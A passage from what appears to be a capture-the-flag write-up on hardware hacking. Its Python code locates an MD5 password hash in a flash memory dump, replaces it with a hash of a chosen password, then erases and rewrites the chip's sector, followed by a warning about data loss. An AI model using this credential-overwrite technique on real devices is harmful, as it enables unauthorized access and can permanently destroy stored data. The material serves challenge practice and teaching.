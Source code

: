 ```python

# Find any entry with a size of 16
target_entry = next((sublist for sublist in entries if len(sublist) == 16), None)

print(target_entry)

# Find the start position of the target_entry in the original list
if target_entry:
    # Convert the list to a string for easier pattern matching
    input_str = ' '.join(map(str, mem_data))
    target_str = ' '.join(map(str, target_entry))

    start_pos = input_str.find(target_str)
    # Calculate the index by counting spaces
    index = input_str[:start_pos].count(' ')
else:
    index = None

print("Target sublist:", target_entry)
print("Start position in original hash:", index)

# Generate new hash
new_hash_list = new_pass('diogt')
print('New hash: ', new_hash_list)

# split memory into two parts, excluding the original MD5 Hash
part1 = mem_data[:index]
part2 = mem_data[index+16:]

# Add the new hash
new_mem_data = (part1 + new_hash_list + part2)

# Clean the memory and remove any empty bytes (0xFF)
new_mem_data = [x for x in new_mem_data if x != 255]


# split data into pages
pages = split_pages(new_mem_data, PAGE_SIZE)

print(f'Program pages with new logs..')

# ERASE SECTOR
exchange([WRITE_ENABLE])
exchange([SECTOR_ERASE, 0x00, 0x00, 0x00])

# Write modified data entires (multiple page program instructions)
write_pages(pages)
```

> WARNING: Be careful when altering data in a flash memory with either program or erase commands as a wrong command might result in permanent loss of the data! **Always** create a **local copy** of all the **original memory contents**. With a local dump of the memory, you can always revert to the memory's original state. 
>
> In the scope of the challenge, u can simply restart the docker instance, but in real life, this is not the case!
